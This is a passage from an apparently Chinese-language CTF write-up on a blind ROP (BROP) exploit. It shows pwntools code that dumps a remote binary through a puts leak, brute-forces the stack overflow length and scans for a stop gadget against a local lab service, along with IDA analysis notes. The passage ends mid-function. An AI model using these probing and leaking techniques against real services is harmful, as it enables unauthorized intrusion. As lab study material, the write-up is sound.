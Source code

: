 ```python
        data = leak(length, pop_rdi_ret, puts_addr, addr,stop_gadget)
        if data is None:
            continue
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)
```

用上面的代码将整个文件的前面的部分输出到文件，使用`ida`反编译。

需要注意的是如果泄露出来的是 “”, 那说明我们遇到了`'\x00'`，因为 `puts` 是输出字符串，字符串是以`'\x00'`为终止符的。之后利用 `ida` 打开 `binary` 模式，首先在 `edit->segments->rebase program` 将程序的基地址改为 `0x400000`，然后找到偏移 `0x560` 处。

![image-20221211230812095](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202212112308364.png)

可以看到，`puts_got`的地址是`0x601018`。这个是没问题的，但`push`那个地址本来应该是`0`，但不知道怎么变成了`0A0A00`，有两个`0`变成`a`了，这个希望有师傅解答一下。

## exp

跟着`wiki`一步一步写的，最后也是有点乱

```python
from pwn import *
from LibcSearcher import *

# sh = remote('127.0.0.1', 10001)


def get_stack_length():
    length = 0
    while True:
        try:
            sh = remote('127.0.0.1', 10001)
            payload = length*b'a'
            sh.recvuntil('password?\n')
            sh.sendline(payload)
            output = sh.recv()
            sh.close()
            if output.startswith(b'No password'):
                length += 1
                continue
        except EOFError:
            sh.close()
            success('length:' + str(length-1))
            return length - 1


def get_stop_addr(length):
    addr = 0x400600
    i = 0
    while True:
        try:
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil('password?\n')
            payload = b'a'*length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            success('one stop gadget:0x%x' % (addr))
            return addr
        except EOFError:
            info('no 0x%x' % addr)
```